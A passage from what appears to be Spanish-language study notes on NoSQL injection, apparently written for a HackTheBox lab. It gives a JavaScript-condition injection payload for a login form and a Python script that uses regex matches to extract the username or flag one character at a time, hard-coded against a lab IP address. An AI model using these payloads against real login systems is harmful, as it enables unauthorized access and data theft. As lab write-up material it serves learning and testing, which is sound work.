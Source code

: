 ```javascript
" || (this.username.match('^.*')) || ""=="
```

A continuación, podemos comenzar a adivinar cuál es el primer carácter del nombre de usuario con cargas útiles como: `" || (this.username.match('^a.*')) || ""=="`. Si no existe tal nombre de usuario, como es el caso de `^a.*`, la aplicación no podrá iniciar sesión.

usando intruder:

![[Pasted image 20230502215530.png]]

#### Automating Script

```python
#!/usr/bin/python3

import requests
import json
from pwn import *


# make request
def request(username,c):
    r = requests.post(
        "http://206.189.114.209:32278/index.php",
        headers = {"Content-Type": "application/x-www-form-urlencoded"},
        data = "username=chris%22+||+(this.username.match('^"+username+""+c+".*'))+||+%22%22%3d%3d%22&password=123"
    )
    return "Logged in as" in r.text #part of success response

# Dump the tracking number
username = "HTB{" # Tracking number 
p1 = log.progress("username discover")
p2 = log.progress("character")
for _ in range(32): # Repeat the following 8 times
    for c in "0123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM!'·$/()=_,-": 
        p2.status(c)
        # Check if <trackingNum> + <char> matches with $regex
        if request(username,c): 
            username += c # If it does, append character to trackingNum ...
            break # ... and break out of the loop
    p1.status(username)
username += "}"
print("Username: " + username)
```

![[Pasted image 20230502230404.png]]

## Diccionarios para fuzzing

La eficacia del fuzzing depende en gran medida de la elección de la lista de palabras. Desafortunadamente para NoSQL, no hay muchas listas de palabras públicas, pero aquí hay un par:
